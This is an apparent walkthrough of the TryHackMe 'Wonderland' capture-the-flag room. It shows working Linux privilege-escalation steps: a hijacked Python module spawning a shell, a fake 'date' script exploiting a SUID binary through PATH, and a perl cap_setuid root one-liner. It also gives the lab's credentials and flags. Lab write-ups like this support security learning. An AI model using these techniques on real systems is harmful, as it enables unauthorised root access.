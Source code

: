 # Wonderland

[Link to the room](https://tryhackme.com/room/wonderland)

## Looking around the rabbit hole

After getting into http://10.10.176.220/r/a/b/b/i/t/ and inspecting the page i found a hidden p tag with this in it:

```
alice:HowDothTheLittleCrocodileImproveHisShiningTail
```

Maybe ssh password (?)

## SSH access


### alice

Well looks like it is. I could get access to the machine through ssh using the above credentials yeah!

Ok in `/home/alice` directory i found `root.txt` and `walrus_and_the_carpenter.py`. That last python file can be executed as the user `rabbit`. It just print random lines of a poem.

```
alice@wonderland:~$ sudo -l
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

The file have the next line `import random` which is a relative path so... i think we can work with that. I just wrote a little fake `random.py` file with the next content:


```
import pty

def choice(something_about_a_poem):
        pty.spawn("/bin/bash")
        exit()
```

Executing `walrus_and_the_carpenter.py` now as `sudo -l` showed, will execute our fake random module and give us access to `rabbit` user:

```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ 
```

### rabbit

I like to run `HOME=/home/$USER` to have the right user home directory configured in the shell.

Looks like `rabbit` has access to a SUID executable: `teaParty`. It ask you for something nice but just core dump for some reason.

I decided to download the file to my machine so i just passed the file to `alice` and download it. It is not stripped so that is cool for looking inside hehe

Ok this is funny:

```
void main(void)

{
  setuid(0x3eb);
  setgid(0x3eb);
  puts("Welcome to the tea party!\nThe Mad Hatter will be here soon.");
  system("/bin/echo -n \'Probably by \' && date --date=\'next hour\' -R");
  puts("Ask very nicely, and I will give you some tea while you wait for him");
  getchar();
  puts("Segmentation fault (core dumped)");
  return;
}
```

First the program just print the core dumped error, lmao. Second, it set the uid to 1003 (probably the `hatter` user).

I can see that the program uses the command `date` inside the `system` function with a relative PATH. Adding `/home/rabbit` to `rabbit` PATH: `PATH="$HOME:$PATH"` and creating `date` script in it with something... funny in it will do i think. (Remember to execute `chmod a+x date` to allow the system to run the script)

Lets try it, this is my `date` script:

```
#! /bin/sh

bash -p
```

And...

```
rabbit@wonderland:~$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:~$
```

Nice!

### hatter

I found a `passwd.txt` in `hatter` home directory. It contain `WhyIsARavenLikeAWritingDesk?` that is hatter password so we got to a "checkpoint":

`hatter:WhyIsARavenLikeAWritingDesk?`

We can now conect to hatter account directly.

Looks like the user flag is not here neither. Alice had the `root.txt` file in her directory, could be possible that we can just read `/root/user.txt` or something? In wonderland the things are a bit weird so lets try i dont know:

```
hatter@wonderland:~$ cat /root/user.txt
thm{"Curiouser and curiouser!"}
```

So.. we got the user flag, nice (Totally on porpouse) lets go for the root one.

After i while i decided to execute `linpeas` and i saw something interesting:

```
Files with capabilities:
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

Perl can manipulate the process UID so... lets try something:

```
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash -p";'
root@wonderland:~# 
```

Jackpot! We are root, lets get that root flag with `cat /home/alice/root.txt`:

`thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}`
